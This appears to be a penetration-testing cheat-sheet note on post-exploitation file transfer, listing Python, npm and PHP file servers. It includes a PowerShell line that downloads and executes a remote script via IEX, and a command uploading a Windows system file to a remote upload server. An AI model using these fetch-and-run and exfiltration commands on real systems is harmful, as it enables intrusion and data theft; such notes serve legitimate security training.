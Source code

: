 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
---
```


## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
# NPM

```
http-server
```

# PHP 

```
php -S 127.0.0.1:8000
```